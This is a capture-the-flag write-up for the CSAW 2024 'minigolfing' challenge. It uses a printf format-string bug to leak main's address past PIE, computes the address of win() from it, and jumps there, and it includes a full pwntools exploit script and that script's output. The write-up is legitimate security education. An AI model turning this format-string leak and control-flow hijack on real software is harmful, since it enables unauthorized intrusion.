 ## Looking at the Problem

We're providing with a binary ``golf`` so let's first begin by seeing what protections we're working with.
```sh
$ checksec ./golf
[*] '/home/zerodaytea/CTFs/csaw2024/minigolfing/golf'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

```

And let's take a look at the decomp as well with Binary Ninja
![[golfdecomp.png]]

Only two functions are of particular notice that being ``main()`` and ``win()``. The ``win()`` function clearly reads the flag file but is never called explicitly so it looks like we'll need to find a way to jump to it.

Fortunately at the end of ``main()``, ``scanf()`` is used to read in an address and then jump to it with the following code segment
```c
00001360      __isoc99_scanf(&data_2094, &var_18);
00001365      int64_t rax_5 = var_18;
0000137c      printf("Ok jumping to that address...");
00001385      rax_5();
```

Unfortunately for us, however, as we saw earlier, PIE is enabled on the binary meaning the position of the binary in memory will be randomized every time it is started. We'll need to find a way to leak the address of ``win()`` in order to pass it into ``scanf()``.

Fortunately, there appears to be a simple format string printf vulnerability in
```c
00001309      fgets(&var_518, 0x400, stdin);
0000131d      printf("hello: ");
00001331      printf(&var_518);
```

As ``printf()`` is called on our input with no format specifier, we can pass our own format specifier as input and leak values earlier on the stack. Since ``win()`` is never invoked, it's address will likely not be anywhere on the stack, but the address of ``main()`` surely will be and we can use the fact that ``win()`` and ``main()`` will always be at consistent offsets away from each other to our advantage. 

I'll use gdb and pass in the ``%p`` format specifier to leak stack data as pointers. Looking at the address space with ``info proc mappings`` we see
![[memoryspace.png]]
So we should be looking for addresses of the format ``0x55555555...`` 

Passing in as many ``%p``'s into the printf call as we can we can then start looking for something matching. Note that this can be more easily done but just iterating with ``%{i}$p`` until we find something like the address of main but because our buffer is big enough here this works as well.

![[formatstring.png]]
We can use ``info functions main`` in gdb to get the address of main and win

```
pwndbg> info functions main
All functions matching regular expression "main":
...
Non-debugging symbols:
0x0000555555555223  main
...
pwndbg> info functions win
All functions matching regular expression "win":
0x0000555555555209  win
```

Looking back at our leaked addresses we spot ``0x555555555223`` as the 177th address printed (quick trick is to count the number of periods appearing between the stack leaks).

Now we now that even outside of gdb we can always always use the format specifier ``%177$p`` to leak the address of main. Since we see that ``win()`` is just ``0x555555555223 - 0x555555555209 = 0x1a`` offset away from ``main()`` we can simply leak the address of main and use the offset to calculate the address we want to jump to.

Writing up our solve script to do just that we get something like
```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./golf")
context.binary = elf

def conn():
    if args.GDB:
        script = """
        br main
        c
        """
        p = gdb.debug(elf.path, gdbscript=script)
    elif args.REMOTE:
        p = remote("addr", 1337)
    else:
        p = process(elf.path)
    return p

def main():
    p = conn()

    p.sendlineafter("name?", "%177$p")
    output = p.recvline()
    main_addr = output.strip()[7:]
    main_addr_int = int(main_addr, 16)
    win_addr_int = main_addr_int - 0x1a
    win_addr = hex(win_addr_int)
    print(win_addr)

    p.sendlineafter("aim at!:", win_addr)

    p.interactive()

if __name__ == "__main__":
    main()
```

If you are unfamiliar with pwntools scripts just take note of the main function where the program is started up, the format specifier is sent, the address of main is parsed from the result, the offset is subtracted, and the resulting address is sent back to the running binary.

Running our solve we get a flag!
```
$ python3 solve.py 
[*] '/home/zerodaytea/CTFs/csaw2024/minigolfing/golf'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Starting local process '/home/zerodaytea/CTFs/csaw2024/minigolfing/golf': pid 29025
0x56f233f74209
[*] Switching to interactive mode
 Ok jumping to that address...csawctf{test_flag}
[*] Got EOF while reading in interactive
```

Simply replacing the ``p = remote()`` call above we can leak the remote flag just as easily.
